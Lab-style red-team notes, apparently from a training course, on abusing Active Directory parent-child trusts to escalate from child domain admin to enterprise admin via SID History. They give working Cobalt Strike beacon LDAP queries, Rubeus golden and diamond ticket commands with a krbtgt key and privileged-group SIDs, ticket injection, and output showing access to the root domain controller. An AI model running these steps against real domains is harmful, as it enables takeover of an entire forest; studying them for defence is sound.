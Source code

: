 
When a new domain is added to an existing tree, a two-way transitive trust is automatically created between it (the child) and its parent domain.  It doesn't matter how far you go down - child.domain.com, grandchild.child.domain.com, or greatgrandchild.grandchild.child.domain.com - because these trusts are transitive, there is always an implicit two-way trust between all of these child domains, and the tree root (domain.com).

Querying the TDO shows a bidirectional trust with contoso.com.

```powershell
beacon> ldapsearch (objectClass=trustedDomain)

name: contoso.com
trustDirection: 3
trustAttributes: 32
flatName: CONTOSO
```

If an adversary is able to gain domain admin privileges in any child domain, they can elevate their privileges to that of enterprise admin in the forest.  This is achieved by forging a golden ticket with a special attributes called SID History, which was designed to support migration scenarios where a user would be moved from one domain to another.  To preserve access to resources in the 'old' domain, the user's previous SID would be added to the SID History of their new account.  When creating a ticket to abuse the trust relationship, the SID of a privileged group (e.g. enterprise admins) in the parent domain can be added to the ticket.

This ticket can be crafted entirely offline:

```powershell
PS C:\Users\Attacker> C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe golden /aes256:2eabe80498cf5c3c8465bb3d57798bc088567928bb1186f210c92c1eb79d66a9 /user:Administrator /domain:dublin.contoso.com /sid:S-1-5-21-690277740-3036021016-2883941857 /sids:S-1-5-21-3926355307-1661546229-813047887-519 /nowrap
```

Where:

- `/aes256` is the AES hash of the child domain's krbtgt account.
    
- `/user` is the user you want to impersonate.
    
- `/domain` is the child domain.
    
- `/sid` is the SID of the child domain.
    
- `/sids` is a list of SIDs you want in the ticket's SID history. **(519 = EA)**


> [!NOTE] Note
> You can get the parent's domain SID via LDAP by querying a domain controller within that domain.  Make sure to set the query base to that of the parent domain's distinguished name.
> ```powershell
>beacon> ldapsearch (objectClass=domain) --attributes objectSid --hostname lon-dc-1.contoso.com --dn DC=contoso,DC=com
>
> Binding to lon-dc-1.contoso.com
> [*] Distinguished name: DC=contoso,DC=com
[*] Filter: (objectClass=domain)
[*] Scope of search value: 1
[*] Returning specific attribute(s): objectSid
> --------------------
objectSid: S-1-5-21-3926355307-1661546229-813047887

Or it can be created using the diamond technique:

```powershell
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe diamond /tgtdeleg /ticketuser:Administrator /ticketuserid:500 /sids:S-1-5-21-3926355307-1661546229-813047887-512 /krbkey:2eabe80498cf5c3c8465bb3d57798bc088567928bb1186f210c92c1eb79d66a9 /nowrap
```

Where:

- `/tgtdeleg` gets a usable TGT for the current user.
    
- `/ticketuser` is the user you want to impersonate.
    
- `/ticketuserid` is the RID of the impersonated user.
    
- `/sids` is a list of SIDs you want in the ticket's SID history.
    
- `/krbkey` is the AES256 hash of the child domain's krbtgt account.

Once the ticket is injected into a logon session, it can be used to access the forest root domain controller.

```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe ptt /ticket:
```

```powershell
beacon> ls \\lon-dc-1\c$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     01/24/2025 13:33:39   $Recycle.Bin
          dir     01/23/2025 13:57:51   $WinREAgent
          dir     01/23/2025 13:47:37   Documents and Settings
          dir     05/08/2021 09:20:24   PerfLogs
          dir     01/23/2025 15:46:17   Program Files
          dir     01/23/2025 15:46:18   Program Files (x86)
          dir     03/03/2025 13:38:06   ProgramData
          dir     01/23/2025 13:47:43   Recovery
          dir     01/29/2025 10:42:20   System Volume Information
          dir     01/24/2025 13:33:21   Users
          dir     01/24/2025 13:49:56   Windows
 12kb     fil     03/13/2025 05:44:35   DumpStack.log.tmp
 1gb      fil     03/13/2025 05:44:35   pagefile.sys
```